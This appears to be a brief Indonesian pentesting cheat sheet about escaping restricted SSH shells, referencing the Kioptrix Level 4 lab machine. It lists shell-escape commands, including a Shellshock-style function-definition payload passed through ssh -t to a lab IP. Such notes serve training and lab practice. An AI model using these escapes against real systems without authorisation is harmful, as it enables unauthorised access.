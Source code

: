 
Terkadang kita bisa login ke SSH namun command yang bisa gunakan sangat terbatas. Hal ini seperti pada **Kioptrix Level 4**.

### Jika terdapat perintah echo
```
echo os.system("/bin/bash")
```

### Via SSH
```
ssh user@10.0.0.3 -t "/bin/sh"
```

```
ssh user@10.0.0.3 -t "bash --noprofile"
```

```
ssh user@10.0.0.3 -t "(){:;}; /bin/bash"
```

Kalau belum bisa, baca https://0xffsec.com/handbook/shells/restricted-shells/